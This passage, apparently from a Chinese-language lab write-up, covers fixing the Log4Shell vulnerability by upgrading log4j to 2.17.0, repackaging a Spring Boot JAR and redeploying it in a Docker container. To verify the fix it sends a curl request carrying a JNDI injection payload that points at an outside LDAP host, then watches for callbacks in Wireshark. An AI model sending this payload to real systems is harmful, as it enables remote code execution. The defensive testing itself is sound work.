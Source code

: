 **[2] 验证打包结果**  
   确保新版本的 Log4j 已正确打包：
   ```bash
   jar tf demo-new.jar | grep log4j
   ```
   输出显示：
   ```
   BOOT-INF/lib/log4j-core-2.17.0.jar
   BOOT-INF/lib/log4j-api-2.17.0.jar
   ```

##### 4. 将修复后的 JAR 文件部署到容器

   (1) 将修复后的 `demo-new.jar` 复制到目标容器中：
   ```bash
   docker cp demo-new.jar <容器ID>:/path/to/demo.jar
   ```

   (2) 重启容器以应用更改：
   ```bash
   docker restart <容器ID>
   ```

##### 5. 验证修复结果

**[1] 发送恶意请求**
在另一台虚拟机（IP 为 `192.168.56.101`）上，发送包含恶意 JNDI 字符串的请求：
```bash
curl -X GET "http://192.168.56.103:8080/hello?payload=\${jndi:ldap://chloris.check4safe.top/exp}"
```

**[2] 使用 Wireshark 监测**
   (1) 在攻击机上启动 Wireshark，选择正确的网络接口（如 `eth0`）。
   (2) 在 Wireshark 中使用过滤器：``ldap``

**[3] 分析抓包结果**  
   - 如果修复成功，Wireshark 不会捕获到目标服务器向 `ldap://chloris.check4safe.topcom/exp` 发起的请求。
   - 如果修复失败，Wireshark 会显示目标服务器尝试连接恶意 LDAP 服务器的流量。

##### 6. 总结一下
   到此为止 , 完成了 Log4j 漏洞的修复：
   (1) 升级 Log4j 到安全版本（2.17.0）。
   (2) 重新打包并部署修复后的 JAR 文件。
   (3) 使用恶意请求和 Wireshark 验证修复结果。

---


## PART4 遇到的问题

### 问题描述

在进行curl命令时 : 
```bash
curl -X GET "http://192.168.56.103:8080/hello?payload=\${jndi:ldap://chloris.check4safe.top/exp}"
```
有如下报错:
```
zsh: unrecognized modifier
```

